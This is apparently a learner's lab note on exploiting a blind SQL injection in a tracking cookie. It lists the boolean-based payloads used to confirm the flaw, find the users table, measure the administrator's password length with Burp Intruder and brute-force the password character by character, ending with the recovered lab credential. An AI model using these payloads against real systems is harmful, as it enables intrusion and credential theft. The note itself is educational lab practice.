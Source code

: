     tracking cookie vulnerable to Blind SLQi: 
    the scenario told me DB have users table and username & password column
    use SQLi technique to achieve administator's password
    
    
    
    # test Boolean base SQLi: 
    
    Cooike: TrackingId=...xyz' AND '1'='1;     => wellcome back! in HTTP response 
    Cooike: TrackingId=...xyz' AND '1'='2;     => don't show Wellcome back! in HTTP response 
    
    
    
    # verify the DB have users table: 
    
    xyz' AND (SELECT 'a' FROM users limit 1)='a;
    
    
    
    # verify the users table have administrator username:
    
    xyz' AND (SELECT 'a' FROM users where username='administrator') = 'a;
    
    
    
    
    # Length of administrator's password:
    
    xyz' AND ( SELECT 'a' FROM users WHERE username='administrator' and LENGTH(password) > 1 ) = 'a;
    
    send it to burp intruder : 
    
    AND ( SELECT 'a' FROM users WHERE username='administrator' and LENGTH(password) > $1$ ) = 'a
    Payload = [0-9] 
    length = [1-25]
    
    and the length of password => 20
    
    
    
    # brute force password character: 
    
    
    AND SUBSTR( ( SELECT password FROM users where username='administrator' ) , 1 , 1 ) = 'a;
    
    
    PAYLOAD = [a-z][0-9]
    length = [1-20]
    
    
    password = ekv7b0giryfr9sk91d3f
    
    
    administrator:ekv7b0giryfr9sk91d3f
